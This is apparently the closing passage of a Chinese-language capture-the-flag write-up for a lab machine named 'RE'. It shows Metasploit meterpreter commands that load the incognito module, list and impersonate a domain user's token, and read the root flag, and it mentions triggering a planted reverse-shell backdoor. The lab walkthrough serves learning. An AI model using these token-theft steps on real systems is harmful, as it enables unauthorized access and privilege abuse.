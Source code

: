 ```
    coby(coby@RE)
    Certificate thumbprint: 415E E454 C45D 576D 59C9 A0C3 9F87 C010 5A82 87E0

  No recovery certificate found.

  Key information cannot be retrieved.

The specified file could not be decrypted.
```

这次使用msf进行，按照之前的步骤获取system之后马上执行之前放进去的后门反弹shell。

`meterpreter`里面`incognito`模块可以进行用户切换，这个方法比用mimikatz还要再简单一点。

```
meterpreter &gt; load incognito  # 用来盗窃目标主机的令牌或是假冒用户
Loading extension incognito...Success.
meterpreter &gt; list_tokens -u  # 列出目标主机用户的可用令牌

Delegation Tokens Available
========================================
Font Driver HostUMFD-0
Font Driver HostUMFD-1
IIS APPPOOLip
IIS APPPOOLre
IIS APPPOOLREblog
NT AUTHORITYIUSR
NT AUTHORITYLOCAL SERVICE
NT AUTHORITYNETWORK SERVICE
NT AUTHORITYSYSTEM
REcam
REcoby
REluke
Window ManagerDWM-1

Impersonation Tokens Available
========================================
No tokens available
meterpreter &gt; impersonate_token "RE\coby"
[+] Delegation token available
[+] Successfully impersonated user REcoby
meterpreter &gt; cat c:\users\administrator\desktop\root.txt
1B4FB9xxxxxxxxxxxxxxxxxxx8F7715D
```

至此渗透完毕

```
C:tmp&gt;whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
recoby   S-1-5-21-311800348-2366743891-1978325779-1000
```



## 总结

这个box的渗透过程还是比较艰辛，获取到的每个用户权限都不是很大，需要理解自动脚本的运行过程和猜测脚本运行效果，即使知道漏洞利用方式还要进一步思考如何利用，即便是到最后拿system权限后，还需一顿操作才最终拿到flag。
